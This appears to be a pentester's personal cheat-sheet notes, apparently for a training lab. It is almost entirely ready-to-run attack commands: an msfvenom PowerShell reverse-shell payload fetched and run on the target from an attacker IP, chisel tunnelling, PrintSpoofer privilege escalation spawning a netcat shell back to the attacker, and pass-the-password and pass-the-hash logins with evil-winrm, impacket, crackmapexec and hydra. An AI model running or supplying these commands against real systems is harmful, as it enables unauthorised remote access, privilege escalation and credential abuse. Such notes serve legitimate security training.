 ```bash
# 110 pop3
# 143 imap

# Quick notes:
# winrm: 5985, (5986), 47001
# smb: 445, 139
# rdp: 3389
# psexec and others use smb??
# email: 25 587 smtp, 110 pop3, 143 imap
```


- **Rev shell example (tunneling, priv esc)**
```bash
## REV SHELL ##
# Example rev shell
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o met.exe
nc -nvlp 443

# target
iwr -uri http://192.168.45.168/met.exe -outfile C:\users\public\met.exe
C:\users\public\met.exe
# (got rev shell)

## TUNNELING ##
# Create tunnel towards internal network
~/tmp/chisel server --port 8080 --reverse

# target
iwr -uri http://192.168.45.168/chisel.exe -outfile C:\users\public\chisel.exe
C:\users\public\chisel.exe client 192.168.45.168:8080 R:socks

# Verify SOCKS works (everything should work now)
#proxychains nmap -n -Pn 172.16.193.11

## PRIV ESC ##
# Priv esc to new rev shell (using Impersonate /w PrinterSpooler). UPDATE: just use GodPotato
iwr -uri http://192.168.45.174/PrintSpoofer64.exe -outfile  c:/users/public/PrintSpoofer64.exe
iwr -uri http://192.168.45.174/nc64.exe -outfile  c:/users/public/nc64.exe
c:/users/public/PrintSpoofer64.exe -c "c:/users/public/nc64.exe 192.168.45.174 4444 -e powershell.exe"
```

- **How to authenticate with pw or hash?** \

If we are local admin, check which services are running and run appropriate method to get shell!

Note: See quick script **../scripts/ad.sh** for password and hash examples (where this is taken from) \
Comment: $DOMAIN is optional?

```bash
# PASSWORD
evil-winrm -i $IP -u "$USER" -p "$PASS"
impacket-smbexec "$DOMAIN/$USER:$PASS"@"$IP"
impacket-wmiexec "$DOMAIN/$USER:$PASS"@"$IP"
impacket-psexec "$DOMAIN/$USER:$PASS"@$IP
xfreerdp /u:"$USER" /p:"$PASS"  /v:$IP /cert:ignore # /auto-reconnect
hydra -l "$USER" -p "$PASS" $IP -t 4 ssh -V
#ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" "$USER"@$IP
```
```bash
# HASH
crackmapexec smb $IP -u "$USER" -H "$HASH" -d "$DOMAIN"  --continue-on-success
impacket-smbexec --hashes=:"$HASH" "$DOMAIN/$USER"@"$IP"
evil-winrm -i $IP -u "$USER" -H "$HASH"
impacket-wmiexec -hashes :"$HASH" "$DOMAIN/$USER"@"$IP"
```